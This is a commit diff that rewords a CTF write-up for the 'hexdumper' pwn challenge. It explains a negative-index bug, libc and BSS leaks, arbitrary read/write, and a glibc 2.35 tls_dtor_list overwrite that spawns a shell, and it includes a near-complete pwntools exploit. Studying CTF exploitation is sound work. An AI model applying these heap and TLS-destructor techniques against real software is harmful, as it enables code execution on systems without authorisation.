

Before and after one commit to 4f3rg4n/4f3rg4n.github.io, a Jekyll site: the page built from _posts/CTF-Writeups/2025-5-12-hexdumper.md, in a window 1280 px wide and 1400 px high, scrolled down 14753 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Update 2025-5-12-hexdumper.md

````diff
--- a/_posts/CTF-Writeups/2025-5-12-hexdumper.md
+++ b/_posts/CTF-Writeups/2025-5-12-hexdumper.md
@@ -327,7 +327,16 @@
 }
 ```
 
-This challenge provide with that protections:
+This challenge provides a memory dump management service with a menu-driven interface. You can create up to 0x41 (65) dumps, each with a maximum size of 0x4141 (16705) bytes, stored in the dumps array. The available features include:
+- Creating zero-initialized dumps
+- Viewing dumps in a hex format (similar to hexdump)
+- Modifying individual bytes
+- Merging two dumps using Duff’s device (a loop-unrolling technique)
+- Resizing dumps (with newly allocated memory zeroed)
+- Removing dumps
+- Listing all existing dumps
+
+### Protections:
 ```bash
     Arch:       amd64-64-little
     RELRO:      Full RELRO
@@ -337,47 +346,19 @@
     Stripped:   No
 ```
 
-So this challenge implements a simple memory dump manager with a menu-based interface.
-Users can create up to 0x41 (65) memory dumps, each up to 0x4141 (16705) bytes in size, stored in a dumps array.
-The program allows creating dumps (zero-initialized), viewing them as hex (like hexdump), modifying individual bytes,
-merging two dumps using Duff's device (a loop-unrolling optimization), resizing dumps (with zeroing of newly added memory),
-removing dumps, and listing all existing dumps.
-
-Ok, so the first bug we can find in it is this condition:
+The first bug we can spot is in this condition:
 ```c
-// func 1
-void hexdump_dump(void) {
-    int idx = ask_for_index();
-    if (idx == -1)
-        return;
-...
-
-// func 2
-void change_byte(void) {
-    int idx = ask_for_index();
-    if (idx == -1)
-        return;
-...
-
-// func 3
-void resize_dump(void) {
-    int idx = ask_for_index();
-    if (idx == -1)
-        return;
-...
-
-// func 4
-void remove_dump(void) {
-    int idx = ask_for_index();
-    if (idx == -1)
-        return;
+// functions: hexdump_dump, change_byte, resize_dump, remove_dump.
+int idx = ask_for_index();
+if (idx == -1)
+    return;
 ...
 ```
 
-This condition block only the index `-1` but what about the other indexes less then `-1` e.g. `-80`?
-so lets see how can we use this to leak memory addresses.
+This check only filters out the index `-1`, but what about other negative values like `-80`?
+so lets see how can we use this to leak some memory addresses.
 
-I chose this function try get some leaks:
+To demonstrate how this can leak memory, I chose the `change_byte()` function:
 ```c
 void change_byte(void) {
     int idx = ask_for_index();
@@ -406,8 +387,9 @@
 }
 ```
 
-as you can see this function ask for an index of the dump then check if the value in that index is valid and after that ask for an offset of the byte we want to edit and then check if the offset is higher then the dumo size that stored relative to the dump address and if the ofsset bigger then the dump size it print them both,
-so the idea is to send negetive offset that its relative size is a address that we want to leak and then send the higher offset we can send so the function will print the that address.
+This function asks for a dump index and verifies that the corresponding dump exists. Then it asks for a byte offset and ensures it's within the size limit. If it's not, it prints both the offset and the dump size.
+
+The trick here is to pass a negative index like `-80`, which accesses memory outside the bounds of the dumps array. Then, we pass an extremely large offset to trigger the print statement that leaks memory:
 
 ```txt
 ____    ____                         ________
@@ -443,16 +425,13 @@
 ==>
 ```
 
-as you can see the program prints some value that was stored relative to index `-80`,
-now lets check wich address space that address is belong to:
+Here, 140737353750400 is a leaked address.
+Checking its memory space reveals that it's within libc, specifically:
 ![libc leak](/assets/images/ctf-writeups/BTS2025/libc-leak.png)
-
-and it points to:
-
 ![leak symbol](/assets/images/ctf-writeups/BTS2025/leak-symbol.png)
 
-So we can see that this is a libc address that points to the `_IO_2_1_stdout_` object.
-now lets write that in our pwntools exploit:
+So we can see that this is a libc address pointing to the _IO_2_1_stdout_ object.
+Now let's write that in our pwntools exploit:
 ```py
 def leak_libc(p: process):
     send_option(p, "3")
@@ -464,14 +443,13 @@
     return libc
 ```
 
-Our next goal is to find a way to arbitrary read / write,
-so for that we need to leak PIE addres / find negetive index
-that can overwrite dump blocks addresses then we could edit each address content that we want.
+Our next goal is to achieve arbitrary read/write.
+To do that, we need to either leak the PIE base or find a negative index that lets us overwrite the dump buffer’s pointer. That would allow us to read from or write to any address.
 
-so for that i found that dump size of the dump index number `-259` contains its own address (loop pointer)
-and we can leak it / overwrite its first byte and make it point to any PIE address we want!
+I found that the dump buffer for index `-259` contains its own address (loop pointer).
+We can leak it or overwrite its first byte to make it point to any PIE address we want.
 
-This is the function that leaks that index:
+Here’s the function that leaks that index:
 ```py
 def leak_bss(p: process):
     send_option(p, "3")
@@ -483,7 +461,9 @@
     return bss
 ```
 
-Now we got two leaks and the ability to do an arbitrary write both for libc and PIE addresses, so lets write the arbitrary write function.
+Now we have two leaks: one for libc and one for the BSS section, and we also have the ability to perform arbitrary reads and writes to both libc and PIE addresses.
+
+So let’s implement the arbitrary write function:
 ```py
 def arbitrary_write(p: process, addr: int, data: int):
     idx = -191
@@ -494,9 +474,10 @@
     for b in range(8):
         change_byte(p, idx, b, (data >> (b * 8)) & 0xff)
 ```
-This function edit the the address that our bss leak point to and then overwrite the content that this address point to.
+This function first edits the address pointed to by our BSS leak, then writes data to that address.
 
-And now we also able to use that address for arbitrary read, we may shoudl also use the `hexdump_dump` function to read and print the memory in the arbitrary address:
+We can also use the same primitive for arbitrary read.
+We'll use the `hexdump_dump` feature to read and print memory at any given address:
 ```py
 def arbitrary_read(p: process, addr: int):
     idx = -191
@@ -510,20 +491,20 @@
     return res
 ```
 
-Now we have strong primitives to build our exploit,
-the glibc version is 2.35 so we cant overwrite malloc / realloc / free hooks,
-so i chose another cool technique that uses by overwrite the tls_call_dtors functions array
-that call that function before the program to exit.
+Now that we have strong read/write primitives, we can build our exploit.
+The glibc version is 2.35, so we can't overwrite `__malloc_hook` / `__realloc_hook` / `__free_hook` because they’ve been removed or protected.
 
-so its goes like this:
-1. leak pointer guard (relative to libc)
-2. xor it with the target function we want to run (maybe the libc SYSTEM functin)
-3. do ror encryption on the func value
-4. write after the function the parameter we want to pass it (e.g. address of `/bin/sh`)
-5. then overwrite the first object in the tls_call_dtors linked list
-6. exit the program
+Instead, we can use a another trick: overwrite the `tls_dtor_list`, which stores function pointers that get called when the program exits.
+so it goes like this:
 
-Here is it in the pwntools code:
+1. Leak the pointer_guard (relative to libc).
+2. XOR it with the address of the function we want to run (e.g., `system()`).
+3. Rotate the result right (ROL encryption) as required by glibc's protection.
+4. Write the parameter for the function (like the address of `/bin/sh`) after the function pointer.
+5. Overwrite the first entry in the `tls_dtor_list`.
+6. Trigger an exit to run our payload.
+
+Here's the pwntools code for that:
 ```py
     p_guard = arbitrary_read(p, libc - FS_BASE)
     print("p_guard: ", hex(p_guard))
@@ -536,11 +517,11 @@
     arbitrary_write(p, bss + 0x28, libc + BINSH)
 ```
 
-And here is the full exploit code of that challenge:
+And here’s the complete exploit:
 ```py
 from pwn import *
 
-#offsets
+# libc offsets (for glibc 2.35)
 __MALLOC_HOOK = 0x2214a0
 ONE_GADGET =  0xebd43
 __EXIT_FUNCS = 0x21a838
@@ -561,24 +543,27 @@
     p.sendline(str(new_byte))
     print("change_byte: ", idx, offset, hex(new_byte))
 
+# leak libc address using _IO_2_1_stdout_
 def leak_libc(p: process):
     send_option(p, "3")
-    p.sendline("-80") #offset of _IO_2_1_stdout_
+    p.sendline("-80")
     p.sendline(str(0xffff_ffff_ffff_ffff))
     p.recvuntil(">= ")
     libc = int(p.recvline()[:-1]) - 0x21b780
     print("libc: ", hex(libc))
     return libc
 
+# leak BSS pointer (loop pointer)
 def leak_bss(p: process):
     send_option(p, "3")
-    p.sendline("-259") #offset of
+    p.sendline("-259")
     p.sendline(str(0xffff_ffff_ffff_ffff))
     p.recvuntil(">= ")
     bss = int(p.recvline()[:-1])
     print("bss: ", hex(bss))
     return bss
 
+# perform arbitrary write using double chunk trick
 def arbitrary_write(p: process, addr: int, data: int):
     idx = -191
     for b in range(8):
@@ -588,6 +573,7 @@
     for b in range(8):
         change_byte(p, idx, b, (data >> (b * 8)) & 0xff)
 
+# arbitrary read by setting pointer and dumping
 def arbitrary_read(p: process, addr: int):
     idx = -191
     for b in range(8):
@@ -608,36 +595,37 @@
     return p64(addr) + p64(param)
 
 def main():
-    ### run ###
     p = process("/tmp/h")
 
-    ### leaks ###
     libc = leak_libc(p)
     bss = leak_bss(p)
 
-    ### setup ###
+    # setup for arb read/write
     idx = -191
-    change_byte(p, idx, 0, (bss & 0xff) - 8) # set arb arg addr
-    arbitrary_write(p, bss + (0x44 * 8) - 8, 8) # set arb arg size to 8
+    change_byte(p, idx, 0, (bss & 0xff) - 8)
+    arbitrary_write(p, bss + (0x44 * 8) - 8, 8)
 
-    ### leaks ###
     stack = leak_stack(p, libc)
     p_guard = arbitrary_read(p, libc - FS_BASE)
     print("p_guard: ", hex(p_guard))
 
-    ### payload ###
+    # craft encrypted function pointer
     func = libc + SYSTEM
     func ^= p_guard
     func = rol(func, 0x11, word_size=64)
 
+    # write TLS dtors payload
     arbitrary_write(p, bss + 0x20, func)
     arbitrary_write(p, bss + 0x28, libc + BINSH)
     for i in range(1,3):
         arbitrary_write(p, bss + 0x28 + (i * 8), 0)
+
+    # overwrite TLS destructor list
     arbitrary_write(p, libc - __GI___call_tls_dtors, bss + 0x20)
+
+    # trigger exit
     p.sendline("0")
     p.interactive()
-
 
 if __name__ == "__main__":
     main()
````
Also changed, not shown: other parts of _posts/CTF-Writeups/2025-5-12-hexdumper.md (+2 -0 lines).
